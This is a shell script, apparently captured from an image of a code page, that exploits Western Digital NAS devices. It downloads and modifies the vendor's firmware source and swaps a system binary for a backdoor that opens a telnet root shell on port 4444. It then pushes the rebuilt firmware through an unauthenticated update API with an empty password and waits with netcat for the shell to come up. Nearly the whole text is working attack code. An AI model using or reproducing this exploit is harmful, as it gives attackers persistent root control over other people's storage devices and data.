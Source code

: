 ```shell
wget https://downloads.wdc.com/gpl/$FW_GPL.tar.gz
tar xf $FW_GPL.tar.gz
cd $FW_GPL/

echo "> 2: Modifying firmware version"
cd firmware/module
sed -i "s/$FW_VERSION/2.99.999/g" crfs/default/config.xml

echo "> 3: Creating backdoor in root filesystem"
cd crfs/bin
mv upnp_nas_device upnp_nas_device.old
cat <<'EOF' >> upnp_nas_device
#!/bin/sh
PS=`ps faux | grep utelnetd | grep -v grep`
if [ -z "$PS" ]; then
  utelnetd -d -l /bin/sh -p 4444
fi
EOF
chmod +x upnp_nas_device
cd ../../

echo "> 4: Building root filesystem (requires sudo to install lib32z1)"
sudo apt install lib32z1
./create_image.sh
sleep 0.5
rm ../merge/image.cfs
mv image.cfs ../merge/

echo "> 5: Building firmware image"
cd ../merge && ./merge

echo "> 6: Sending firmware update"
curl -vv -X POST -F 'file=@WD-NAS-firmware' "http://$RHOST/api/2.1/rest/firmware_update?auth_username=nobody&auth_password="

echo ""
echo "> 7: Now sit back and wait for Shelly, she takes around 3 minutes to arrive!"
while true; do 
  sleep 1
  nc $RHOST 4444 2>/dev/null
  if [ $? -eq 0 ]; then
    break
  else
    echo -n "."
  fi
done

echo "> Exploit finished"
```

